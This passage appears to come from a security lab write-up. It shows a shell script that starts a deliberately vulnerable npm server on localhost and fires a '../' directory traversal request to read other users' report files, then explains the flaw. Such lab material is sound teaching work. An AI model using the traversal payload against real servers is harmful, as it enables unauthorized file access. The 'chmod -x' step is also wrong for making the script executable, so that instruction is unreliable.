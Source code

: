 ```Shell
sleep 2

echo -e "\t[${GREEN}server root directory${NC}]: `pwd`"

### Step 3: Perform directory attack

ATTACK_PATH=${1:-"http://localhost:8888/general/../timmy/reports_original.txt"}


echo -e "\t[${GREEN}using attack path${NC}]: ${BLUE}$ATTACK_PATH${NC}"

node scripts/attack.js "$ATTACK_PATH"


### Step 4: Clean up the vulnerable npm package's process

echo -e "\t[${GREEN}cleaning up${NC}]: killing server (pid $vulnpid)"

kill -9 $vulnpid 2>/dev/null || true

echo -e "\t[${GREEN}done${NC}]"
```
## Run Attacks
- Make sure attacks are first executable via `chmod -x attack.sh`
- Then run attacks `./attack.sh` or a specified path

<img width="1021" height="316" alt="image-183" src="https://github.com/user-attachments/assets/a6ce8f4d-0371-4d58-919a-0b4b8ebbae48" />

The server does not canonicalize and restrict file paths correctly. By requesting sibling paths from /general/ (e.g., ../wanda/...) the server returned files that are outside the intended public directory. This is a classic directory traversal vulnerability that allows an attacker to read sensitive files over the network.
Ultimately, the server returned `reports_original.txt` from `/wanda/`, `/timmy/`, and `/cosmo/`, demonstrating an unauthorized exposure of sensitive data.


  

